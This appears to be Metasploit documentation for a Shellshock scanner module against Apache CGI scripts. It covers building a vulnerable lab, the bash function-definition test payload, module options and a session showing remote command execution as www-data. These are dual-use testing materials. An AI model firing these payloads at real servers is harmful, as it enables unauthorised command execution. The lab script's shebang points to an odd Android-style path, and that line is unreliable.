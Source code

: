 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the `HTTP_USER_AGENT` environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:

  1. Install [Ubuntu 12.04.5 LTS](http://cdimage.ubuntu.com/releases/12.04/release/)
  2. Log into console
  3. Confirm the host is vulnerable (see next section)
  4. Also install Apache2 from the apt repository with the following command

    ```
    sudo apt-get install apache2
    ```

  5. Enable cgi-mod in apache with the following command

    ```
    sudo ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
    ```

  6. Restart the apache service with the following command

    ```
    sudo service apache2 reload
    ```

  7. In your favorite text editor create a file (as root) in `/usr/lib/cgi-bin` called `test.sh` with the following contents:

    ```
    #!/data/data/hilled.pwnterm/files/usr/bin/bash
    printf "Content-type: text/html\n\n"
    printf "Test!\n"
    ```

  8. Set the file to be executable with the following command

    ```
    sudo chmod +x /usr/lib/cgi-bin/test.sh
    ```

### To check if a host is vulnerable to the attack

   1. Run (on the host)

    ```
    env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
    ```

   2. The shell will return the below text if the environment is vulnerable

    ``` 
    vulnerable
    bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
    bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
    bash: error importing function definition for `BASH_FUNC_x'
    test
    ```

## Verification Steps

1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
3. Do: set `RHOSTS [IP]`
4. Do: set `TARGETURI [URI]`
5. Do: `run`

## Options

**CMD**

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

**CVE**

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2014-6271` but valid options are `CVE-2014-6271` or `CVE-2014-6278`.

**HEADER**

This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

**METHOD**

This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22

  ```
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
